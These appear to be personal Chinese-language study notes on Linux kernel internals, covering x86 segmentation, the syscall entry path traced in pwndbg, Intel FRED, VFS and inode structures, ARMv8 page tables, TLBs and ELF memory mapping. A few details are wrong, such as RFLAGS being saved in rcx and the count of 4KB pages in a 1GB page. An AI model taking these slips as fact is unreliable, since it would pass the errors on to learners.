addr = segment_base << 4 + offset
但是安全问题也很突出，”实模式“（今天的叫法）哪怕引入段后，还是直接操作系统的实际内存，程序之间的地址没有隔离，程序可以访问另一个程序地址，甚至是操作系统的程序地址，所以一不小心就可能直接把操作系统给干废了
保护模式 概念首次出现于80286，并将以前“老办法”称为实模式
很快推出的80386DX ，CPU、寄存器、地址总线都是32位的，寻址空间直接达4GB
此时无需段的帮助，只需使用偏移地址就可以访问内存中的任一个字节，此时段的机制就多余了，但是为了保持兼容，保留了段的机制，只是将段全部设置为0
此时在操作系统不在分段（也叫平坦模式）
为了保证程序访问安全的内存，在访问内存时会进行检查，检查段的访问权限、段的长度、段的线性基址、段的特权级等等
于是设置了一个结构体保存这些信息，这个结构体就叫做段描述符
结构体如下
struct desc_struct { u16 limit0; u16 base0; u16 base1:8 ; u16 type:4 ; u16 s:1 ; u16 dpl:2 ; u16 p:1 ; u16 limit1:4 ; u16 avl:1 ; u16 l:1 ; u16 d:1 ; u16 g:1 ; u16 base2:8 ; };
这样每个段都有自己的段描述符，信息非常庞大，不是寄存器可以保存的，于是操作系统在启动时在内存中开辟了一块空间用于保存段描述符
这就是全局描述表GDT ，也引入了一个寄存器GDTR 用于保存GDT 的地址
有了GDT 后就可以查表，而关于索引则参考了实模式的设计，使用段寄存器存索引，称为段选择符/段选择子
而段寄存器的段选择符是16位的，所传入的段选择符的结构体
u16 RPL:2 u16 T1:1 u16 index:13
使用请求的RPL和段描述符的RPL比较（ring 0 ~ 3），如果段选择符 的请求特权级别RPL 的权限低于段描述符 的特权级DPL 时，就会拒绝访问
还有LDT和LDTR，IDT和IDTR，不过多介绍
为了解决内存碎片的问题，引入了页机制，同时兼容段机制形成了独特的段页机制
段机制实现虚拟地址到线性地址的转换，分页机制实现线性地址到物理地址的转换
CPU内部有一个控制寄存器CR3 ，存放着当前进程的页目录表 的物理内存基地址，页目录表存放的是页表 的物理内存基地址，页表存放的是页 的物理内存基地址
通过拆分线性地址，查询页表对应的项目得到其真实地址
通过线性地址的4个9位索引 逐级查找PML4 -> PDPT -> PD -> PT ，最后加上12位偏移量 得到物理地址
#define GDT_ENTRY_KERNEL_CS 2 #define GDT_ENTRY_DEFAULT_USER32_CS 4 #define __USER32_CS (GDT_ENTRY_DEFAULT_USER32_CS*8+3) #define __KERNEL_CS (GDT_ENTRY_KERNEL_CS*8)
由此可见kernel cs为0x10，user cs为0x23
回到关于系统调用初始化的过程
wrmsrl(MSR_STAR, ((u64)__USER32_CS)<<48 | ((u64)__KERNEL_CS)<<32 );
将用户态和内核态的段选择子存入MSR_STAR寄存器中
wrmsrl(MSR_LSTAR, system_call);
将syscall的进入点存入MSR_LSTAR
还有
wrmsrl(MSR_SYSCALL_MASK, X86_EFLAGS_TF|X86_EFLAGS_DF|X86_EFLAGS_IF| X86_EFLAGS_IOPL|X86_EFLAGS_AC);
syscall指令执行时，凡是MSR_SYSCALL_MASK中置位的标志位，都会从EFALGS中清除
接下来是比较新的内核代码
void syscall_init (void ) { wrmsr(MSR_STAR, 0 , (__USER32_CS << 16 ) | __KERNEL_CS); if (!cpu_feature_enabled(X86_FEATURE_FRED)) idt_syscall_init(); } #endif
通过对比新老代码，发现一个FRED代替了原来的代码，也就是
static inline void idt_syscall_init (void ) { wrmsrq(MSR_LSTAR, (unsigned long )entry_SYSCALL_64); if (ia32_enabled()) { wrmsrq_cstar((unsigned long )entry_SYSCALL_compat); wrmsrq_safe(MSR_IA32_SYSENTER_CS, (u64)__KERNEL_CS); wrmsrq_safe(MSR_IA32_SYSENTER_ESP, (unsigned long )(cpu_entry_stack(smp_processor_id()) + 1 )); wrmsrq_safe(MSR_IA32_SYSENTER_EIP, (u64)entry_SYSENTER_compat); } else { wrmsrq_cstar((unsigned long )entry_SYSCALL32_ignore); wrmsrq_safe(MSR_IA32_SYSENTER_CS, (u64)GDT_ENTRY_INVALID_SEG); wrmsrq_safe(MSR_IA32_SYSENTER_ESP, 0ULL ); wrmsrq_safe(MSR_IA32_SYSENTER_EIP, 0ULL ); } wrmsrq(MSR_SYSCALL_MASK, X86_EFLAGS_CF|X86_EFLAGS_PF|X86_EFLAGS_AF| X86_EFLAGS_ZF|X86_EFLAGS_SF|X86_EFLAGS_TF| X86_EFLAGS_IF|X86_EFLAGS_DF|X86_EFLAGS_OF| X86_EFLAGS_IOPL|X86_EFLAGS_NT|X86_EFLAGS_RF| X86_EFLAGS_AC|X86_EFLAGS_ID); }
那么什么是FRED呢？AI回答说
FRED 全称是 Flexible Return and Event Delivery （灵活返回与事件交付）。
它是 Intel 提出的一种新的硬件机制，旨在取代 传统的 x86 中断和系统调用处理流程（如 INT/IRET、SYSCALL/SYSRET、SYSENTER/SYSEXIT），提供更统一、更高效的事件（中断、异常、系统调用）处理流程
在传统模式下
从用户态进入内核态（或处理异常/中断）有几种不同的指令（INT n / IRET：非常慢，因为涉及大量的状态保存和权限检查；SYSCALL / SYSRET：虽然快，但功能有限），内核必须为不同的入口方式编写不同的汇编代码路径（例如 Linux 中有 entry_SYSCALL_64、entry_INT80_compat、entry_SYSENTER_compat 等），中断、异常、系统调用的进入和返回机制各不相同，导致硬件和软件的处理逻辑碎片化
在 FRED 模式下：
引入一套统一的、基于堆栈的 事件处理机制
无论是中断、异常还是系统调用（SYSCALL、SYSENTER、INT），CPU 都会跳转到同一个预定义的内核入口点 （由 FRED 配置寄存器指定）
内核不再需要为每种事件类型维护独立的汇编入口桩（Stub）与手动保存上下文，FRED 硬件会自动 将关键的寄存器状态压入内核堆栈
返回时通过专用的ERETU/ERETS自动恢复之前硬件保存的状态并原子性地 完成返回过程，消除了竞态条件
此外，SYSRET 和 SYSEXIT 在 FRED 启用时会抛出 #UD（无效指令异常），必须使用 ERETU (Event Return to User) 指令返回用户态
系统调用
系统调用是用户空间程序与内核交互的主要机制。系统调用与普通函数调用不同，使用系统调用时，需要特殊指令以使处理器权限转换到内核态后才能调用内核里的代码。
进行系统调用参数只能为6个，rdi/rsi/rdx/r10/r8/r9，rax传递系统调用号同时也返回系统调用返回值，如果为负数（-4095~-1）则表示产生了错误
syscall指令包含以下操作
先将一些保存的操作
将当前的rip的下一条指令（返回地址）存入rcx
把rflags标志位的值存入rcx
还有一些加载的操作
将IA32_LSTAR MSR寄存器的值加载到rip
把rflags的值与IA32_FMASK MSR里的值做掩码运算（屏蔽RFLAGS的某些标志位）
把IA32_STAR MSR寄存器里第32~47位加载到CS和SS段寄存器（IA32_STAR[47:32]高16位加载到CS，IA32_STAR[47:32]低16位加载到SS）（内核一般设置CS = 0x10（内核代码段），SS = 0x18（内核数据/栈段））
SYM_CODE_START(entry_SYSCALL_64) UNWIND_HINT_ENTRY ENDBR swapgs movq %rsp, PER_CPU_VAR(cpu_tss_rw + TSS_sp2) SWITCH_TO_KERNEL_CR3 scratch_reg=%rsp movq PER_CPU_VAR(cpu_current_top_of_stack), %rsp SYM_INNER_LABEL(entry_SYSCALL_64_safe_stack, SYM_L_GLOBAL) ANNOTATE_NOENDBR pushq $__USER_DS pushq PER_CPU_VAR(cpu_tss_rw + TSS_sp2) pushq %r11 pushq $__USER_CS pushq %rcx SYM_INNER_LABEL(entry_SYSCALL_64_after_hwframe, SYM_L_GLOBAL) pushq %rax PUSH_AND_CLEAR_REGS rax=$-ENOSYS movq %rsp, %rdi movslq %eax, %rsi IBRS_ENTER UNTRAIN_RET CLEAR_BRANCH_HISTORY call do_syscall_64
swapgs后GS_base变为一个内核地址0xffff88800f400000，然后将用户栈存在gs的一个偏移处，将cr3放入rsp然后运算得到一个新的值在放回cr3，此时cr3就指向了一个有效的地址
CR3 0x557b000 [virtual: 0xffff888014981000]
*CR3 0x557a000 [virtual: 0xffff88800557a000 ◂— 0x80000000054b2067]
然后将存有用户栈的地址的低8字节处取出一个值（似乎是各种以页为单位的内存地址）放入rsp，这些地址存储着页底
pwndbg> tele 0xffff88800f40600c 00:0000│ 0xffff88800f40600c ◂— 0xffffc90000260000 01:0008│ 0xffff88800f406014 —▸ 0x7ffd2c041438 —▸ 0x54a25f ◂— test rax, rax 02:0010│ 0xffff88800f40601c ◂— 0 03:0018│ 0xffff88800f406024 ◂— 0xfffffe000000b000 04:0020│ 0xffff88800f40602c ◂— 0xfffffe000000e000 05:0028│ 0xffff88800f406034 ◂— 0xfffffe0000011000 06:0030│ 0xffff88800f40603c ◂— 0xfffffe0000014000 07:0038│ 0xffff88800f406044 ◂— 0xfffffe0000017000 pwndbg> tele 0xffffc90000260000-0x1000 00:0000│ 0xffffc9000025f000 ◂— 0 ... ↓ 7 skipped pwndbg> vmmap 0xfffffe000000b000-0x1000 LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA Start End Perm Size Offset File (set vmmap-prefer-relpaths on) 0xfffffe0000003000 0xfffffe0000008000 r--p 5000 3000 cpu entry ►xfffffe0000009000 0xfffffe000000b000 rw-p 2000 9000 cpu entry +0x1000 0xfffffe000000c000 0xfffffe000000e000 rw-p 2000 c000 cpu entry pwndbg> tele 0xfffffe000000b000-0x1000 00:0000│ 0xfffffe000000a000 ◂— 0 ... ↓ 7 skipped pwndbg> vmmap 0xfffffe000000b000 There are no mappings for specified address or module. pwndbg> vmmap 0xfffffe000000b000-0x1000 LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA Start End Perm Size Offset File (set vmmap-prefer-relpaths on) 0xfffffe0000003000 0xfffffe0000008000 r--p 5000 3000 cpu entry ►xfffffe0000009000 0xfffffe000000b000 rw-p 2000 9000 cpu entry +0x1000 0xfffffe000000c000 0xfffffe000000e000 rw-p 2000 c000 cpu entry
然后push寄存器，先push五个值，ss，用户rsp，r11(flags)，cs和用户态返回地址（rcx)
然后push各种寄存器，rax，rdi，rsi，rdx，rcx，()，r8~r11，rbx，rbp，r12~r15
xor edx，ecx，r8d，r9d，r10d，r11d，ebx，ebp，r12d~r15d
将系统调用号存入rdi，栈地址赋给rsi，然后do_syscall_64
返回时判断栈上rsp[+58]和[+80]是否相同，也就是两次push的rcx，不相同则跳转到swapgs_restore_regs_and_return_to_usermode
然后检查cs值，在检查flags(r11)
然后pop返回，对应push的对应pop，不同的是原来push r11返回时pop rsi，push ()返回时pop rax，push rcx返回时pop rsi
pop完rsi后不pop rdi而是直接赋值mov rdi,rsp，然后将rsp转移到一开始cr3操作时存有用户栈的地址的低8字节处，push [rdi+0x28],push [rdi]也就是用户栈和进入系统调用时的rdi，push rax
然后将cr3放入rdi运算，然后存回cr3，然后pop rax、rdi、rsp，swapgs，sysretq
文件系统
文件系统的原理 - 知乎
文件系统的作用是帮助用户和操作系统高效、安全、有序地管理和访问数据
没有文件系统，读写一个文件可能需要先“遍历数据”才能找到文件并进行读写，效率极低
结构
文件系统将磁盘按照内存中的页一样，将磁盘分为多个大小相同的块（block），大部分block中存储用户数据，一部分block中存储元数据（metadata，存储的数据结构称为index node，简称inode），根据inode的大小在block中分配多个inode，每次产生新数据时需要一个block存储数据和一个inode存储元数据，此时需要快速判断哪个block/inode是空闲的
block和inode可以分别使用bitmap来标记空闲状态，这些bitmap也会占据block
另外还有一个superblock，包含一个文件系统的所有控制信息，比如说magic、inodes、blocks、inodeblocks（标记第一个inode的位置）等等
Group Descriptor Table（组描述符表）先省略
寻址
ext2/ext3
文件的大小会影响block的占据数量，这些block不一定是连续的，处理不连续的block的管理比较好的方法就是“指针”了
如果文件比较小，那么一个inode就可以存储这个文件所需的所有指针，但是如果文件比较大，那么就会使用间接索引，由inode先指向一个block，这个block再存储指向文件的指针
这叫multi-level index，类似内存管理的多级页表
ext4
大文件所需的metadata较多，为了解决这个问题，可以使用一个指针和长度（extents机制）表示在物理上连续的数据（文件）
目录和路径
从抽象的角度，将目录视为一种文件，路径就像是树结构
对某一文件进行操作，先找到文件目录的根目录这个“文件”的inode，访问对应的block查找下一级目录“文件”的inode号，直到找到对应文件
操作系统会在内存中缓存访问的目录“文件”的inode项，第二次访问同一文件时速度会得到提升
虚拟文件系统VFS（virtual file system）
Linux中的VFS实现 一 - 知乎
Linux中的VFS实现 二 - 知乎
linux中，我们有不同的文件系统（比如ext4、NTFS、FAT32等等），不同文件系统的读写应该使用不同的接口函数，但是我们却总是可以使用open、read、write来操作这些不同的文件系统，这归功于VFS
VFS将不同的文件系统抽象成一致的行为，让用户态和内核的其他部分可以不用关注不同文件系统的不同细节
当用户调用读写的系统调用时，内核态系统调用接口处理后交给VFS处理，VFS处理后交给对应的文件系统，访问缓存，未命中则访问设备驱动，由设备驱动向硬件发送IO请求，从而实现读写操作
VFS的实现也是与文件系统类似（superblock、inode、file、dentry（记录路径名和inode的对应关系））
superblock、inode、file、dentry是VFS的四个重要部分
在linux中，对文件的访问都是通过虚拟文件系统VFS（virtual file system） 层提供的内核接口进行的
一个文件的inode信息可以通过stat命令获取
访问控制
读（r）写（w）执行（x）是文件的三种属性
尝试访问文件的用户有三类：所有者（user）、与所有者在同一用户组的用户（group）、其他用户（others）
chmod修改权限，chown修改UID（user id）和GID（group id）
还有三种timestamp
文件上次被访问时间atime
文件内容上次被修改时间mtime
文件属性上次被修改时间ctime
目录和设备也被视为文件
inode编号
在其所属的superblock中有唯一编号，即i_ino
superblock
i_sb指向其所属的superblock
双向链表
i_sb_list（list_head包含两个指向list_head的指针）指向其在双向链表中的下一个和上一个inode结构体
open
当进程需要读取写入文件时，使用了open
int open (const char *pathname, int flags, mode_t mode) ;
内核先将传入的路径名提供给dentry，找到文件对应的inode
事实上，dentry是一个只在内存中存在的事物，它缓存了磁盘文件查找的结果，磁盘上的目录只是简单的目录项dir_entry，当读取一个新文件时，内核读取其上一级目录的目录块，找到新文件的inode号（没有对应文件也会创建一个dentry，只是这个dentry的d_inode设为NULL），创建一个dentry结构体在内存中，设置其内容，放入全局dcache的哈希表中（长时间或内存不足未使用则会从哈希表移除并释放其内存）（仍在使用中的文件被删除可能直接在dentry中标记d_inode为NULL，详看rm）
hard link会将inode的i_dentry和一个或多个dentry的d_alias形成双向链表
hard link
通过ln <file> <link>创建
这样创建的链接文件的inode编号和原文件相同ls -i
事实上，一个文件的hard link增加的是一个新的一个dentry项并将该项与原文件关联的inode关联，增加的是对这个inode结构体的关联/指向
因此其通过ls -i命令展示的-rw-rw-r-- <__i_nlink> <size>
其的权限和size完全与原文件相同，是因为这两个文件的dentry关联的是同一个inode，因此如果硬链接文件进入其他文件系统，则可能会与该文件系统既有的文件inode发生冲突
symbolic/soft link
通过ln -s <file> <link>创建
而symbolic/soft link则是创建了一个文件，存放了原文件的路径字符串
当访问一个软链接文件时，VFS通过dentry找到对应的inode，发现文件类型是软链接，从数据块中读出路径字符串（如果路径很短，则会直接存在inode中的i_link），再次解析
rm
使用rm命令删除文件时，先操作磁盘，移除dir_entry，将dentry和inode的关联unlink（也就是将对应的inode的__i_nlink减1），然后找到内存中的dentry，调用其d_op的处理d_delete，将其从dcache hash中擦除，处理引用计数，如果没有进程打开该文件，则引用计数归零，然后判断引用计数，此时引用计数为零则会立即释放，如果引用计数不为零则不会立即释放文件，会变成一个disconnect/negative的状态，此时d_inode可能不变也可能置空，内容仍然保存在磁盘上
dentry结构体被定义在/include/linux/dcache.h中，其结构体如下
struct dentry { unsigned int d_flags; seqcount_spinlock_t d_seq; struct hlist_bl_node d_hash ; struct dentry *d_parent ; union { struct qstr __d_name ; const struct qstr d_name ; }; struct inode *d_inode ; union shortname_store d_shortname ; const struct dentry_operations *d_op ; struct super_block *d_sb ; unsigned long d_time; void *d_fsdata; struct lockref d_lockref ; union { struct list_head d_lru ; wait_queue_head_t *d_wait; }; struct hlist_node d_sib ; struct hlist_head d_children ; union { struct hlist_node d_alias ; struct hlist_bl_node d_in_lookup_hash ; struct rcu_head d_rcu ; } d_u; };
inode结构体被定义在/include/linux/fs.h中，其结构体如下
struct inode { umode_t i_mode; unsigned short i_opflags; unsigned int i_flags; #ifdef CONFIG_FS_POSIX_ACL struct posix_acl *i_acl ; struct posix_acl *i_default_acl ; #endif kuid_t i_uid; kgid_t i_gid; const struct inode_operations *i_op ; struct super_block *i_sb ; struct address_space *i_mapping ; #ifdef CONFIG_SECURITY void *i_security; #endif unsigned long i_ino; union { const unsigned int i_nlink; unsigned int __i_nlink; }; dev_t i_rdev; loff_t i_size; time64_t i_atime_sec; time64_t i_mtime_sec; time64_t i_ctime_sec; u32 i_atime_nsec; u32 i_mtime_nsec; u32 i_ctime_nsec; u32 i_generation; spinlock_t i_lock; unsigned short i_bytes; u8 i_blkbits; enum rw_hint i_write_hint ; blkcnt_t i_blocks; #ifdef __NEED_I_SIZE_ORDERED seqcount_t i_size_seqcount; #endif struct inode_state_flags i_state ; struct rw_semaphore i_rwsem ; unsigned long dirtied_when; unsigned long dirtied_time_when; struct hlist_node i_hash ; struct list_head i_io_list ; #ifdef CONFIG_CGROUP_WRITEBACK struct bdi_writeback *i_wb ; int i_wb_frn_winner; u16 i_wb_frn_avg_time; u16 i_wb_frn_history; #endif struct list_head i_lru ; struct list_head i_sb_list ; struct list_head i_wb_list ; union { struct hlist_head i_dentry ; struct rcu_head i_rcu ; }; atomic64_t i_version; atomic64_t i_sequence; atomic_t i_count; atomic_t i_dio_count; atomic_t i_writecount; #if defined(CONFIG_IMA) || defined(CONFIG_FILE_LOCKING) atomic_t i_readcount; #endif union { const struct file_operations *i_fop ; void (*free_inode)(struct inode *); }; struct file_lock_context *i_flctx ; struct address_space i_data ; union { struct list_head i_devices ; int i_linklen; }; union { struct pipe_inode_info *i_pipe ; struct cdev *i_cdev ; char *i_link; unsigned i_dir_seq; }; #ifdef CONFIG_FSNOTIFY __u32 i_fsnotify_mask; struct fsnotify_mark_connector __rcu *i_fsnotify_marks ; #endif void *i_private; } __randomize_layout;
用户态文件系统 FUSE（Filesystem in Userspace）
用户态文件系统 - FUSE - 知乎
用户态文件系统是指一个文件系统的data和metadata（元数据，即描述数据的数据）都是由用户态的进程提供的（这种进程被称为“daemon（守护进程） ”）。
对于micro-kernel（将操作系统核心功能置于内核空间而将大部分服务拆分为用户态进程实现，依赖内核模块作为代理进行通信）的操作系统来说，在用户态实现文件系统不算什么，但对于monolithic-kernel（大部分系统功能都需要集中在一个内核空间执行，依赖内核内部的统一接口调度）的Linux来说，意义就有所不同。
内存管理-转换为物理内存

内核中的寻址空间大小是由CONFIG_ARM64_VA_BITS控制的 这里以48位为例，ARMv8中 Kernel Space的页表基地址存放在TTBR1_EL1寄存器中，内核地址空间的高位为全1，（0xFFFF0000_00000000 ~ 0xFFFFFFFF_FFFFFFFF） User Space页表基地址存放在TTBR0_EL0寄存器中，用户地址空间的高位为全0，（0x00000000_00000000 ~ 0x0000FFFF_FFFFFFFF）
当 CPU 收到一个虚拟地址转换请求时 1. 检查虚拟地址高 16 位是否为全 0 或全 1 2. 若全 0 → 用 TTBR0_EL1 的值作为页表基址，开始多级页表遍历 3. 若全 1 → 用 TTBR1_EL1 的值作为页表基址，开始多级页表遍历 4. 否则 → 触发地址异常
TTBR0_EL1 ：存放用户进程页表的物理基址 * 每个用户进程有独立的页表 → 进程切换时，内核会更新 TTBR0_EL1 的值 * 仅用于转换用户空间虚拟地址
TTBR1_EL1 ：存放内核全局页表的物理基址 * 内核页表是全局的 → 所有进程共享同一套内核页表，进程切换时 TTBR1_EL1 无需修改 * 仅用于转换内核空间虚拟地址
内存管理-访问内存

TLB 是 CPU 内核内部的硬件组件 ，和 L1 指令 / 数据缓存一样，属于 CPU 片上高速存储，物理上集成在 MMU 模块中。
TLB 的分类
按地址类型分：指令 TLB（ITLB） 缓存指令页的页表项，数据 TLB（DTLB） 缓存数据页的页表项
按页大小分：支持大页（如 2MB/1GB）的 TLB 条目会单独划分区域，避免小页条目挤占大页空间
TLB 失效的影响
若地址转换的页表项不在 TLB 中（TLB Miss ），CPU 会触发页表遍历 ：去内存中查多级页表（如 x86_64 的 4 级页表），找到后将页表项填入 TLB，供后续访问复用
频繁的 TLB Miss 会显著降低性能，这也是内核尽量使用大页（HugePage）的原因 —— 一个大页表项能覆盖更大的内存区域，减少 TLB 条目占用，降低 Miss 率
内核对 TLB 的管理
当内核修改页表（如 vmalloc 分配内存、页表映射变更）时，必须主动刷新 TLB （如执行 invlpg 指令），否则 CPU 会使用旧的 TLB 条目，导致地址转换错误
不同架构的 TLB 刷新指令不同：x86 用 invlpg，ARMv8 用 tlbi 系列指令
TLB：MMU工作的过程就是查询页表的过程，CPU从虚拟地址中提取虚拟页号，到 TLB 中匹配直接得到对应的物理页号和权限，再通过物理页号 + 页内偏移得到真实的物理地址，发起内存读写请求
对于同一个内存，更大的大页对应的虚拟页号位数更少，可以覆盖更大的内存空间，直接减少 TLB Miss 概率，提升地址转换效率（1 个 1GB 大页 TLB 条目 = 256 个 4MB 页条目 = 1048576 个 4KB 页条目）
内存管理-页

通常采用四级页表，页全局目录(PGD)，页上级目录(PUD)，页中间目录(PMD)，页表(PTE)
从CR3寄存器中读取页目录所在物理页面的基址（即所谓的页目录基址），从线性地址的第一部分获取页目录项的索引，两者相加得到页目录项的物理地址
第一次读取内存得到pgd_t结构的目录项，从中取出物理页基址取出，即页上级页目录的物理基地址
从线性地址的第二部分中取出页上级目录项的索引，与页上级目录基地址相加得到页上级目录项的物理地址
第二次读取内存得到pud_t结构的目录项，从中取出页中间目录的物理基地址
从线性地址的第三部分中取出页中间目录项的索引，与页中间目录基址相加得到页中间目录项的物理地址
第三次读取内存得到pmd_t结构的目录项，从中取出页表的物理基地址
从线性地址的第四部分中取出页表项的索引，与页表基址相加得到页表项的物理地址
第四次读取内存得到pte_t结构的目录项，从中取出物理页的基地址
从线性地址的第五部分中取出物理页内偏移量，与物理页基址相加得到最终的物理地址
第五次读取内存得到最终要访问的数据
内存管理-ELF程序内存映射
一、整体概述
ELF 可执行文件从加载到内存映射建立，遵循 “先虚拟，后物理，按需分配” 的核心原则。整个过程分为两大阶段：
第一阶段：虚拟地址空间规划（execve 阶段）
解析 ELF 文件格式
为进程创建 mm_struct 和页表根节点
划定虚拟内存区域（vm_area_struct）
第二阶段：物理内存实际映射（运行时阶段）
首次访问触发缺页异常
动态分配页表中间层级（PUD/PMD/PTE）
分配物理内存并建立映射
二、详细流程分解
步骤 1：执行触发与 ELF 解析
用户态：用户输入 ./hello → Shell 调用 execve()
内核态：sys_execve() → do_execve() → load_elf_binary()
关键操作：
关键数据结构：
linux_binprm：临时存放加载参数
elf64_phdr：程序段描述符
步骤 2：进程内存描述符创建
load_elf_binary() → mm_alloc() → mm_init()
关键操作：
mm->pgd = pgd_alloc(mm); mm->mmap = NULL ; mm->mm_rb = RB_ROOT; mm->start_code = mm->end_code = 0 ; mm->start_data = mm->end_data = 0 ; mm->start_brk = mm->brk = 0 ;
关键点：
此时只分配了 PGD 根页 （4KB 物理页）
PUD/PMD/PTE 均未分配，节省内存
TTBR0_EL1 仍指向原进程页表
步骤 3：虚拟内存区域创建与基址随机化
3.1 基址确定
arch_pick_mmap_layout() → randomize_stack_top()
PIE vs 非 PIE 差异：
非 PIE
ET_EXEC
固定值
0x400000
PIE
ET_DYN
内核随机分配
0x5555000000~0x7777000000
PIE 随机化细节：
3.2 vm_area_struct 创建
load_elf_binary() → elf_map() → mmap_region()
各段处理逻辑：
代码段
ELF 加载时
r-x
VM_EXEC
数据段
ELF 加载时
rw-
VM_WRITE
BSS 段
ELF 加载时
rw-
VM_WRITE
栈
setup_arg_pages()
rw-
VM_GROWSDOWN
堆
set_brk()
rw-
VM_GROWSUP
关键数据结构： vm_area_struct
struct vm_area_struct { unsigned long vm_start; unsigned long vm_end; pgprot_t vm_page_prot; unsigned long vm_flags; struct file *vm_file ; struct rb_node vm_rb ; };
虚拟地址最终布局示例（PIE）：
0x5555000000 ~ 0x5555001000 .text (代码段) 0x5555002000 ~ 0x5555003000 .data (数据段) 0x5555003000 ~ 0x5555004000 .bss (BSS段) 0x5555004000 ~ 0x5555005000 堆初始预留区 0x7ffffffde000 ~ 0x7ffffffff000 栈
步骤 4：页表框架的惰性建立
核心原则： 页表中间层级（PUD/PMD）按需分配
4.1 进程创建时的页表状态
mm->pgd = pgd_alloc(mm); for (i = 0 ; i < PTRS_PER_PGD; i++) mm->pgd[i] = pgd_none;
4.2 ARMv8 4 级页表结构
虚拟地址 [48位] = [PGD(9)][PUD(9)][PMD(9)][PTE(9)][Offset(12)]
各级覆盖范围：
PGD：512GB（2^39 字节）
PUD：1GB（2^30 字节）
PMD：2MB（2^21 字节）
PTE：4KB（2^12 字节）
步骤 5：进程切换与页表激活
context_switch() → switch_mm() → cpu_switch_mm()
ARMv8 硬件操作：
// 将新进程的 PGD 物理地址写入 TTBR0_EL1 msr ttbr0_el1, x0 // x0 = mm->pgd 物理地址 dsb ish // 内存屏障 tlbi vmalle1is // 刷新 TLB dsb ish isb
关键点：
TTBR0_EL1 指向进程私有用户页表
TTBR1_EL1 指向内核全局页表（不变）
TLB 刷新确保旧进程映射失效
步骤 6：首次访问触发缺页异常
6.1 异常触发流程
用户态：执行第一条指令（PC = 入口地址） 硬件：MMU 遍历页表发现 PTE 无效 → 触发 Data/Instruction Abort 内核：el0_sync → do_mem_abort() → do_page_fault()
ARMv8 缺页异常原因码（ESR_EL1）：
0b000000：地址大小故障
0b000100：转换故障（页表项无效）
0b000101：权限故障
6.2 缺页处理核心逻辑
handle_mm_fault() → __handle_mm_fault() → pud_alloc() → pmd_alloc() → pte_alloc_map() → handle_pte_fault()
6.3 不同段类型的映射策略
代码段
文件映射
do_read_fault()
page cache / 磁盘
数据段
文件映射
do_shared_fault()
page cache / 磁盘
BSS 段
匿名映射
do_anonymous_page()
零页 → COW
栈
匿名映射
do_anonymous_page()
零页 → COW
堆
匿名映射
do_anonymous_page()
新分配物理页
代码段文件映射示例：
page = alloc_page(GFP_KERNEL); copy_page_from_file(page, elf_file); entry = mk_pte(page, PAGE_READONLY_EXEC); set_pte_at(mm, address, pte, entry);
步骤 7：堆的动态扩展机制
7.1 堆地址的三阶段确定
阶段 1：ELF 解析时（虚拟预留） set_brk() → 创建 vm_area_struct 范围：基址+偏移 ~ 基址+偏移+4KB（仅占位）
阶段 2：第一次 malloc() 时（虚拟扩展） brk() 系统调用 → 扩展 vm_area_struct 范围 例：0x5555004000 → 0x5555004800
阶段 3：首次访问时（物理映射） 缺页异常 → 分配物理页 → 建立 PTE 映射
7.2 brk() 系统调用流程
SYSCALL_DEFINE1(brk, unsigned long , brk) → do_brk_flags() → find_vma_links() → vma_merge() → vma_link()
步骤 8：后续访问与 TLB 加速
8.1 TLB 命中流程
虚拟地址 0x5555000000 → TLB 查询 ↓ 命中 物理地址 0x80005678000 + 偏移 → 访问内存 ↓ 未命中（TLB Miss） 硬件遍历页表：TTBR0_EL1 → PGD → PUD → PMD → PTE 获取物理地址并填充 TLB
8.2 多级页表遍历开销
三、核心数据结构关系图
进程控制块 (task_struct) ↓ 内存描述符 (mm_struct) ├── pgd: 0x80001234000 → PGD 物理页 ├── mmap: 链表头 → vm_area_struct 链表 ├── mm_rb: 红黑树根 → vm_area_struct 红黑树 ├── start_code/end_code └── start_brk/brk ↓ vm_area_struct ├── vm_start/vm_end ├── vm_flags (VM_READ|WRITE|EXEC) └── vm_page_prot ↓ 页表层级 PGD → PUD → PMD → PTE ↓ 物理页帧
四、PIE 与非 PIE 的完整对比
ELF 类型 ET_EXEC
ET_DYN
入口地址 绝对地址 (0x400000)
相对偏移 (0x1000)
虚拟基址 固定 0x400000
随机 (ASLR)
页表构建 固定 PGD 偏移
随机 PGD 偏移
安全性 低（地址可预测）
高（ASLR 防护）
兼容性 传统方式
现代标准（Android/Linux）
加载器 内核直接加载
内核+动态链接器
内存管理-组织物理内存
非一致性内存访问 NUMA(Non-Uniform Memory Access)意思是内存被划分为各个node，访问一个node花费的时间取决于CPU离这个node的距离。每一个cpu内部有一个本地的node，访问本地node时间比访问其他node的速度快
一致性内存访问UMA(Uniform Memory Access)也可以称为SMP(Symmetric Multi-Process)对称多处理器。意思是所有的处理器访问内存花费的时间是一样的。也可以理解整个内存只有一个node
ZONE的意思是把整个物理内存划分为几个区域，每个区域有特殊的含义
代表一个物理页，在内核中一个物理页用一个struct page表示。
为了描述一个物理page，内核使用struct page结构来表示一个物理页。假设一个page的大小是4K的，内核会将整个物理内存分割成一个一个4K大小的物理页，而4K大小物理页的区域我们称为page frame
内存管理-分区页框分配器
有时候目标管理区不一定有足够的页框去满足分配，这时候系统会从另外两个管理区中获取要求的页框，但这是按照一定规则去执行的，如下：
如果要求从DMA区中获取，就只能从ZONE_DMA区中获取
如果没有规定从哪个区获取，就按照顺序从ZONE_NORMAL -> ZONE_DMA获取
如果规定从HIGHMEM区获取，就按照顺序从 ZONE_HIGHMEM -> ZONE_NORMAL -> ZONE_DMA获取

struct page *__alloc_frozen_pages_noprof (gfp_t gfp , unsigned int order , int preferred_nid , nodemask_t *nodemask ) { ... page = get_page_from_freelist(alloc_gfp, order, alloc_flags, &ac); if (likely(page)) goto out; ... page = __alloc_pages_slowpath(alloc_gfp, order, &ac); ... return page; } EXPORT_SYMBOL(__alloc_frozen_pages_noprof);
在页面分配时，有两种路径可以选择，如果在快速路径中分配成功了，则直接返回分配的页面；快速路径分配失败则选择慢速路径来进行分配
如果分配的是单个页面，考虑从per CPU缓存中分配空间，如果缓存中没有页面，从伙伴系统中提取页面做补充。
分配多个页面时，从指定类型中分配，如果指定类型中没有足够的页面，从备用类型链表中分配。最后会试探保留类型链表。
内存管理-水位
衡量当前系统内存状态，内存watermark水位就能很好的衡量系统内存状态，内存状态的划分分三个层次：HIGH、LOW、MIN，系统针对内存不同的状态就会做不同的内存行为，对系统内存状态进行管控
如果空闲页数目< min值，则该zone非常缺页，页面回收压力很大，应用程序写内存操作就会被阻塞，直接在应用程序的进程上下文中进行回收，即direct reclaim
